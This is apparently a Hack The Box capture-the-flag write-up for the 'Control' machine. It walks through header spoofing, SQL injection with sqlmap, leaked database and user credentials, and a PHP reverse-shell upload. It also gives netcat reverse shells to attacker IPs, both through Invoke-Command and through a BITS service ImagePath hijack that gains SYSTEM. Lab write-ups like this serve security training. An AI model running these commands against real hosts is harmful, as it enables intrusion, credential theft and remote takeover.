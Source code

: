 ```yaml
---
layout: post
title: "[HTB] control"
date: 2020-04-27 04:11:00 +0300
categories: htb hack
---
```


# control

# portscan

* 80/tcp httpd
* 3306/tcp mysql
* 49666/tcp rpc
* 49667/tcp rcp

# user

## httpd
Comment inside http://control.htb/index.php
&nbsp;
```html
<!-- To Do:
 - Import Products
 -  - Link to new payment system
 -   - Enable SSL (Certificates location \192.168.4.28\myfiles) 
 -   <!-- Header --!>
```
&nbsp;
/admin.php and /index.php returns
Access denied! Header missing. Please make sure you go through the proxy to access this page.
&nbsp;
Use **X-Forwarded-For: 192.168.4.28** header to access the pages.
&nbsp;
Looking around the site found the sqli.

Create request with Burp
&nbsp;
```text
POST /search_products.php HTTP/1.1
Host: 10.10.10.167
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.167/admin.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 25
Connection: close
Upgrade-Insecure-Requests: 1
X-Forwarded-For: 192.168.4.28

productName=5
```
&nbsp;
Use sqlmap for fun and profit
&nbsp;
```terminal
sqlmap --all -r request
```
&nbsp;
```text
private static $dbUsername = 'manager';
private static $dbUserPassword = 'l3tm3!n';
```
&nbsp;
Crack user hashes from the mysql user database with john

**Hector: l33th4x0rhector**
&nbsp;
Also upload a reverse shell
&nbsp;
```terminal
sqlmap -r request --file-dest=C:/inetpub/wwwroot/krypt2.php --file-write=./krypt2.php
```
&nbsp;
Enter a new powershell session with Hector creds or use them to run a process

```powershell
$pass = convertto-securestring "l33th4x0rhector" -asplaintext -force
$cred = new-object system.management.automation.pscredential("CONTROL\Hector", $pass)
$sess = new-pssession -Credential $cred
enter-pssession $sess
```
&nbsp;
or
&nbsp;
```powershell
invoke-command -credential $cred -computername localhost -scriptblock {C:\windows\temp\ncnc.exe 10.10.14.7 6667 -e cmd.exe}
```

---

# root
&nbsp;
run usual windows privesc checks
&nbsp;
Note to self: 

```powershell
cat (Get-PSReadlineOption).HistorySavePath
```
&nbsp;
Hector can modify ImagePath value of services.

```powershell
get-childitem HKLM:\SYSTEM\CurrentControlSet\Services\BITS | fl
get-itemproperty HKLM:\SYSTEM\CurrentControlSet\Services\BITS | fl
get-acl HKLM:\SYSTEM\CurrentControlSet\Services\BITS |fl
set-itemproperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\BITS" -Name "ImagePath" -Value "C:\windows\system32\spool\drivers\color\nc.exe 10.10.14.176 6666 -e cmd.exe"
cmd /c bitsadmin.exe /list /verbose
```
